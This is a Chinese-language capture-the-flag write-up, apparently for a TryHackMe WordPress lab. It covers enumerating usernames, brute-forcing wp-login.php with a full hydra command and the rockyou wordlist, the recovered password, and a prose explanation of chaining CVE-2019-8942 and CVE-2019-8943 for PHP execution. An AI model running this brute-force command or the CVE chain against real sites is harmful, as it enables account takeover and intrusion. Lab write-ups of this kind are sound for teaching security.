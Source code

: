 ## Web检索

进web看看：

查看主页源代码：

    44 <meta name="generator" content="WordPress 5.0" />

我们得到了wp的版本，当然使用wappalyzer也得到相同的结果

登录页面：

    http://blog.thm/wp-login.php

任意输入一些数据，发现：

    ERROR: Invalid username

我们在前面检索web的时候，主页中文章的作者：

     By Karen Wheeler -> http://blog.thm/author/kwheel/
    By Billy Joel -> http://blog.thm/author/bjoel/

我们得知用户名应该是：

    kwheel
    bjoel

使用任意密码进行登录，发现两个用户都存在

## hydra爆破

使用F12打开浏览器开发者工具，切换到Network模块，抓登录包，查看请求表单的数据并切换到原始：

    log=bjoel&pwd=qwe&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1

创建./test1.txt，将两个用户名添加进去

hydra: 

    ┌──(root🐦kali)-[/home/sugobet]
    └─# hydra -L ./test1.txt -P /usr/share/wordlists/rockyou.txt 10.10.44.0 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:incorrect"

结果：

    [80][http-post-form] host: 10.10.44.0   login: kwheel   password: cutiepie1

成功登录进后台

## CVE-2019-8943 & CVE-2019-8943

通过CVE-2019-8942，攻击者可以将_wp_attached_file的meta_key(用于检索存储在数据库中的值并显示它)修改为任意值。利用该漏洞需要发送post请求，一般正常的请求不会在请求中包含文件参数，而攻击者创建的请求中通过携带文件参数对_wp_attached_file的meta_key进行更新

可以将CVE-2019-8942的攻击与另一个漏洞CVE-2019-8943连接起来，后者可以让攻击者将上传的文件移动到可以成功执行嵌入式PHP代码的任意目录中。

<img src='https://nimg.ws.126.net/?url=http%3A%2F%2Fdingyue.ws.126.net%2FsQabuxXzcrcsZQWtZ68rJQAdKpHiHuPQ90Q85lB6SpkYE1551443009275compressflag.png&thumbnail=660x2147483647&quality=80&type=jpg' />
